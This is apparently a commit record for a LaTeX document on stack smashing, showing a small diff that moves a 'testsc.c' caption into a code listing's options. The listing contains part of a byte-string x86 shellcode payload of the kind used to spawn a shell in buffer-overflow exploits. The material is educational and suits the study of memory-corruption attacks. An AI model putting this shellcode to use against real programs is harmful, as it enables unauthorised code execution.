

Before and after one commit to descent/latex_doc, a LaTeX document (stack_smashing/stack_smashing.tex): part of page 31 of 32, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
relayout

```diff
--- a/stack_smashing/stack_smashing.tex
+++ b/stack_smashing/stack_smashing.tex
@@ -822,8 +822,8 @@ End of assembler dump.
 \end{verbatim}
 }
 
-\begin{lstlisting}[basicstyle=\tiny]
-testsc.cchar shellcode[] =
+\begin{lstlisting}[basicstyle=\tiny,caption=testsc.c]
+char shellcode[] =
 "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
 "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
 "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
```
Also changed, not shown: stack_smashing/stack_smashing.tex (4 more changed lines).
